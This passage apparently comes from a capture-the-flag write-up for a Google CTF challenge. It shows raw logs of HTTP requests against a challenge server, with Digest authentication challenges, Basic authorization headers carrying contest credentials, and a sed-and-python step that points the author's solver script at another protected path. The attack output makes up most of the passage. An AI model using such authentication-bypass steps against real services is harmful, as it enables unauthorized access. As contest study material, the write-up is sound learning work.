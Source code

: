 ```
  key: "Content-Length"
  value: "12"
}
body: "Unauthorized"

===============================================================================
Nonce: 8ca391b49fc7c325
ver: GET
uri: "/protected/joke"
headers {
  key: "Authorization"
  value: "Basic Z29vZ2xlLmN0ZjoxNTQwODIxODYyLjIwNzk0MTQyNTYuMTE5NDk3OTY0MA=="
}

===============================================================================
Username: google.ctf
Password: 1540821862.2079414256.1194979640
===============================================================================
status: 404
headers {
  key: "Server"
  value: "opabina-regalis.go"
}
body: "404 - file not found. Have you tried /protected/joke or /protected/token?"
```

Ok... `sed -i 's/secret/token/g' answer.py; python answer.py` does the job.

```
ver: GET
uri: "/protected/token"

===============================================================================
status: 401
headers {
  key: "Server"
  value: "opabina-regalis.go"
}
headers {
  key: "WWW-Authenticate"
  value: "Digest realm=\"In the realm of hackers\",qop=\"auth\",nonce=\"58bb9b0afed222c8\",opaque=\"58bb9b0afed222c8\""
}
headers {
  key: "Content-Length"
  value: "12"
}
body: "Unauthorized"

===============================================================================
Nonce: 58bb9b0afed222c8
ver: GET
uri: "/protected/joke"
headers {
  key: "Authorization"
  value: "Basic Z29vZ2xlLmN0Zjo1NjY4OTE2MjUuMTA1OTYzNTA2LjE3NTU5NDYzODg="
}

===============================================================================
Username: google.ctf
Password: 566891625.105963506.1755946388
===============================================================================
status: 200
headers {
```